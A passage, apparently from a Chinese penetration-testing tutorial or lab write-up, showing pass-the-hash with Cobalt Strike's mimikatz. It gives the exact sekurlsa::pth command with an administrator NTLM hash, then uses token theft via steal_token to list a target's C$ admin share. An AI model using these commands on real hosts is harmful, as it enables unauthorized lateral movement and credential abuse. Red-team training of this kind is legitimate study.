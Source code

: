 ![](img/21.png)

## PTH-mimikatz

使用`cs`的`mimikatz`进行`pth`，发现执行后在目标主机上弹出cmd窗口，可利用进程窃取，直接在cs上进行远程操作。

```bash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.91.178 /ntlm:c780c78872a102256e946b3ad238f661
```

这时候 `mimikatz` 会打开一个system 权限的cmd窗口。我们查看目标进程，`explore->process list`,选择最下方的 `cmd.exe` 进程

![](img/22.png)

```
steal_token 3532
dir \\192.168.91.178\c$
```
